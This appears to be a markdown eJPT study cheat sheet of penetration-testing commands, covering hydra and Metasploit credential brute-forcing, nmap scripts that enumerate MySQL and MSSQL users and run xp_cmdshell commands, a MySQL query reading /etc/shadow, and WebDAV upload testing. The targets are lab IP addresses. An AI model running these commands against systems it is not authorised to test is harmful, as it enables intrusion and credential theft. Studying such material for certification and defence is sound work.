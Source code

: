 # TOOLS FOR EJPT

## Port Information:

| SERVICE               | PORT NUMBER |
|-----------------------|-------------|
| http, https           | 80, 443     |
| SMB                   | 445(TCP)    |
| SMB on top of NETBIOS | 139         |
| RDP                   | 3389        |

### Check what a command does

- `man`
    
    ```jsx
    man nmap
    ```
    
- `whatis`
    
    ```jsx
    whatis nmap
    ```
    
- `apropos` - if you want to search a string in the description of all the commands
    - eg - I want to search for a command to `change password`
    
    ```jsx
    apropos change password
    ```
    
    - if we want to filter it more
    
    ```jsx
    apropos -a <string>
    ```

### Directory busting

- gobuster
- dirb
- msfconsole
- dirbuster

### Payload generation

- msfvenom

### Password enumeration

- hydra
    - for MySQL user ‘root’ we can also provide a username list
        
        ```jsx
        hydra 192.140.141.3 -l root /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  mysql
        ```
        
    - for WebDAV enumeration
        
        ```jsx
        hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 10.5.19.162 http-get /webdav/
        ```
        
- metasploid(msfconsole)
    - for brute forcing a MySQL user password eg ‘root’
        
        ```jsx
        use auxiliary/scanner/mysql/mysql_login
        ```
        

### Download the source code

- curl
- wget

### Open the website in the command line

- browsh → open the browser in the command line

```jsx
browsh --startup-url <ip-address>
```

- lynx
  
```jsx
lynx https://domainname.com
```

## Ms-SQL(Microsoft based SQL) enumeration

- Nmap
    - for more info and NTLM info also
        
        ```jsx
        nmap 10.5.31.168 -sV -sC -p 1433
        ```
        
    - for information about the MSSQL database server
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-info
        ```
        
    - for brute forcing the users and their passwords on the MSSQL server
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt
        ```
        
    - what user have an empty password(or anonymous login)
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-empty-password
        ```
        
    - Execute MSSQL query to extract sysusers(syslogins)
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt
        ```
        
    - Execute a command on MSSQL
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"
        ```
        
- msfconsole
    - brute forcing users and their passwords
        
        ```jsx
        use auxiliary/scanner/mssql/mssql_login
        ```
        
    - Running the MSSQL enumeration module to find all possible information
        
        ```jsx
        use auxiliary/admin/mssql/mssql_enum
        ```
        
    - Enumerate all MSSQL logins or extract MSSQL users
        
        ```jsx
        use auxiliary/admin/mssql/mssql_enum_sql_logins
        ```
        
    - Execute a command on the target machine
        
        ```jsx
        use auxiliary/admin/mssql/mssql_exec
        ```
        
    - Enumerate all available system users(or domain accounts)
        
        ```jsx
        use auxiliary/admin/mssql/mssql_enum_domain_accounts
        ```
        

## MySQL enumeration

- MySQL
    - connect with the database as ‘root’
        
        ```jsx
        mysql -h <IP address> -u root
        ```
        
- Nmap
    - MySQL user enumeration
        
        ```jsx
        nmap 192.99.192.3 -sV --script mysql-enum
        ```
        
    - what user have an empty password(or anonymous login)
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-empty-password
        ```
        
    - finding user through ‘root’
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-users --script-args="mysqluser='root',mysqlpass=""”
        ```
        
    - finding databases on the SQL server through ‘root’
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-databases --script-args="mysqluser='root',mysqlpass=""”
        ```
        
    - finding the data dir(or other variables) through ‘root’
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-variables --script-args="mysqluser='root',mysqlpass=""”
        ```
        
    - Check whether File Privileges can be granted to non-admin users using mysql_audit nmap script.
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-audit --script-args="mysql-audit.username='root', mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'”
        ```
        
    - running our query on ‘root’
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-query --script-args="query='Select * from books.authors;',username='root',password=''”
        ```
        
- *msfconsole*
    - for brute forcing a MySQL user password eg ‘root’
        
        ```jsx
        use auxiliary/scanner/mysql/mysql_login
        ```
        

## Basic my SQL commands

- Connect to the SQL server
    
    ```jsx
    mysql -h <IP address> -u <user>;
    ```
    
- to see the databases
    
    ```jsx
    Show databases;
    ```
    
- to select a database
    
    ```jsx
    Use <database name>;
    ```
    
- to see tables
    
    ```jsx
    Show tables;
    ```
    
- to see the count of rows from a table
    
    ```jsx
    Select count(*) from <tablename>;
    ```
    
- to see the values inside the table
    
    ```jsx
    Select * from <tablename>;
    ```
    
- to open a file in the SQL database
    
    ```jsx
    Select load_file("/etc/shadow");
    ```
    
    ---
    

## WebDAV Exploitation

- using nmap
    - WebDAV directory enumeration
        
        ```jsx
        nmap 10.5.19.162 -p 80 --script http-enum
        ```
        
- using Metasploit

## Davtest → used to check what files can be uploaded on the WebDAV server

- davtest
    
    ```jsx
    davtest -auth bob:password_123321 -url http://10.5.19.162/webdav/
    ```
    

## Cadaver → connecting to the WebDAV server.

- cadaver
    
    ```jsx
    cadaver http://10.5.19.162/webdav/
    ```
    ---
